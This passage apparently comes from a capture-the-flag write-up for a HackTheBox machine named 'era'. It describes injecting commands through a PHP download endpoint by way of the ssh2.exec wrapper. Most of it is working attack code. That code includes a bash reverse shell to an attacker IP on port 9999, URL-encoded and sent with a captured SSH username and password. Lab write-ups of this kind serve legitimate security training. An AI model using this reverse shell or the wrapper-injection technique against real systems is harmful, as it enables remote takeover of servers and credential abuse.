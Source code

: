 ```python
else:
    print("Download URL input not found. Probably unauthed or duplicate filename")


```

    Download URL: http://file.era.htb/download.php?id=4602


I spent a lot of time here doing other things, like looking at oracle attacks that failed because there's no reflection, looking through LFI potentialities to see if I could invoke some data in some other way or navigate paths at least, and seeing if I could phone home. I did find that the HTTP wrapper worked and would reach out to me.

After spending time perusing the ftp server's php folder, I found ssh2 was in here and I hadn't used this module before.

[PHP ssh2 wrapper](https://www.php.net/manual/en/wrappers.ssh2.php)

This wrapper allows PHP to do some work in executing, tunneling, and copying files natively through PHP. I started this payload by seeing if I could simply touch to an open nc session on /dev/myip/myport, which worked after I tested from the users I had dumped earlier. Eric has access to ssh to the server, and the server must be listening to 22 on 127.0.0.1 to let this happen without letting me log in remotely!

What you see below is the culmnation of my iterations, rather than the encyclopedia of my failures.


```python
import urllib.parse
# Set the bash command, it can be anything as long as it's encoded
# Note that I added a # to comment out the file name that will be passed in later
command = "/bin/bash -i >& /dev/tcp/10.10.14.81/9999 0>&1#"
# Encode this for URL encoding to package the payload properly
encoded_command = urllib.parse.quote(command)
# Verify the payload results
print(encoded_command)

# ACTUALLY USE the encoder_command and not the raw command. i definitely did. For sure.
preface = f'ssh2.exec://eric:america@localhost:22/{encoded_command}'
print(fileid)
# Make sure to have a listener running and ship it. 
show_file = admin_session.get(f'http://file.{target}/download.php?id={fileid}&show=true&format={preface}')
print(show_file.text)
print(admin_session.cookies.get_dict())
```

    /bin/bash%20-i%20%3E%26%20/dev/tcp/10.10.14.81/9999%200%3E%261%23
    4602
    <html>
    <head><title>504 Gateway Time-out</title></head>
    <body>
    <center><h1>504 Gateway Time-out</h1></center>
    <hr><center>nginx/1.18.0 (Ubuntu)</center>
    </body>
    </html>
    